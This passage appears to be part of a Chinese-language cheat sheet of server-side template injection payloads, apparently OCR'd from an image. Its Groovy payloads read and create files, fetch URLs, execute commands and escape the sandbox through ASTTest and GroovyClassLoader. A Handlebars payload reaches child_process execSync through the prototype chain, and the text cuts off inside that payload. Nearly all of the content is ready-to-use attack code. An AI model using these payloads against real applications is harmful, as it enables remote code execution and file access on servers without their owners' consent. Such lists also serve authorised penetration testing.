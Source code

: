 ### Groovy - 基础注入

参考 https://groovy-lang.org/syntax.html ，但 `${9*9}` 是基础注入。

### Groovy - 读取和创建文件

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP 请求：

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - 命令执行

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(这是一个 Script 类)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - 沙箱绕过

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

或者

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Handlebars

[官方网站](https://handlebarsjs.com/)

> Handlebars 将模板编译成 JavaScript 函数。

### Handlebars - 命令执行

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
```